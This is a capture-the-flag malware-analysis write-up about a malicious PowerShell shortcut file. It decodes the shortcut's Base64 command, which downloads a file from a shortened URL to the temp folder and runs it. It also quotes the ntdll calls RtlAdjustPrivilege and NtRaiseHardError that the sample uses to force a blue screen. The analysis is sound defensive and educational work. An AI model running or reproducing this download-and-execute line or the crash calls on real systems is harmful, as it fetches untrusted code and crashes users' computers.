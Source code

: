 # Russian Roulette

## Description

```
My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
````

## Malware Analysis Procedure

This is a malicious file; use a sandbox environment. I am running Flare VM.

[Flare VM on GitHub](https://github.com/mandiant/flare-vm)


## Default Analysis Steps

When I conduct a malware analysis, I usually check for:

- **Network connections** → Wireshark
- **Memory activities** → DumpIt → Volatility or MemProcFS
- **Processes** → Process Monitor from Sysinternals
- **Disk activity**



***Steps to solve the CTF***

Download the file and extract it in a safe env.



## Initial File Inspection

The first thing I do with the file is to run the command:

file <filename>

```
Windows PowerShell.lnk: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Feb 17 05:44:00 2024, mtime=Thu Oct 03 17:53:00 2024, atime=Sat Feb 17 05:44:00 2024, length=450560, window=hidenormalshowminimized.
```

The file is a LNK (shortcut) file.

Right-click the file and select Properties to view the targets.

This reveals that PowerShell executes a Base64 string, which can be decoded to extract the following command:
```
iwr is.gd/jwr7JD -o $env:TMP/.cmd; & $env:TMP/.cmd
```


## Process Analysis
I can also see in the processes captured with Process Monitor that cmd spawns a PowerShell process, which then runs a Base64 string.

PID: 3660
PPID: 2116
I save the Base64 string to a file and run:
```
Base64.exe -d base64string.txt > stage2.txt
```
After decoding everything, we find that it resembles a PowerShell script with embedded C# code.

We refine the code to make it more readable (see the stage2.txt file in the folder).


## Decryption Process
We observe that decryption takes place, and we want to make the code "safe" by ONLY printing the decrypted output. Remove evrything else that dosnt have to do with the decryption.

How Does the Decryption Process Work?
Three Base64-encoded strings (c, k, and i) were decoded into byte arrays:

```c```: The encrypted text.
```k```: The AES key.
```i```: The Initialization Vector (IV) for AES.

I modify the code to print the decrypted string (see the aesdec.txt file).

Run the code and get the response: flag{REDACTED}

-------------------------------------------------------

## Note + Extra Nerdiness

[Link to additional resources](https://gist.github.com/MerijnHendriks/97f3096a5d779643ba6029d03dd86992)
[Link to additional resources](https://www.pinvoke.net/index.aspx)

If you run the code, you will experience a BSOD (Blue Screen of Death).

Why?
The code utilizes ntdll.dll, which implements basic functions for Windows. It can cause severe issues if mishandled.

```
RtlAdjustPrivilege(19, true, false, out o);
```
The number 19 represents SeShutdownPrivilege (allows the system to restart or shut down services).
```
NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
```
NtRaiseHardError is a function that can trigger a "serious error," leading to a BSOD to prevent damage to the system.